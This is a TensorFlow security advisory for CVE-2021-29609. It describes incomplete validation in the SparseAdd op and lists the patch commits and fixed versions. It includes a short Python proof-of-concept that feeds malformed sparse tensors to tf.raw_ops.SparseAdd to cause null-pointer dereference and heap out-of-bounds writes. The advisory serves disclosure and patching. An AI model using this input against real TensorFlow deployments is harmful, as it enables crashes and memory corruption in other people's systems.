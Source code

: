 ## TFSA-2021-096: Incomplete validation in `SparseAdd`

### CVE Number
CVE-2021-29609

### Impact
Incomplete validation in `SparseAdd` results in allowing attackers to exploit
undefined behavior (dereferencing null pointers) as well as write outside of
bounds of heap allocated data:

```python
import tensorflow as tf

a_indices = tf.zeros([10, 97], dtype=tf.int64)
a_values = tf.zeros([10], dtype=tf.int64)
a_shape = tf.zeros([0], dtype=tf.int64)

b_indices = tf.zeros([0, 0], dtype=tf.int64)
b_values = tf.zeros([0], dtype=tf.int64)
b_shape = tf.zeros([0], dtype=tf.int64)

thresh = 0

tf.raw_ops.SparseAdd(a_indices=a_indices,
                    a_values=a_values,
                    a_shape=a_shape,
                    b_indices=b_indices,
                    b_values=b_values,
                    b_shape=b_shape,
                    thresh=thresh)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/656e7673b14acd7835dc778867f84916c6d1cac2/tensorflow/core/kernels/sparse_add_op.cc)
has a large set of validation for the two sparse tensor inputs (6 tensors in
total), but does not validate that the tensors are not empty or that the second
dimension of `*_indices` matches the size of corresponding `*_shape`. This
allows attackers to send tensor triples that represent invalid sparse tensors to
abuse code assumptions that are not protected by validation.

### Patches
We have patched the issue in GitHub commit
[6fd02f44810754ae7481838b6a67c5df7f909ca3](https://github.com/tensorflow/tensorflow/commit/6fd02f44810754ae7481838b6a67c5df7f909ca3)
followed by GitHub commit
[41727ff06111117bdf86b37db198217fd7a143cc](https://github.com/tensorflow/tensorflow/commit/41727ff06111117bdf86b37db198217fd7a143cc).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
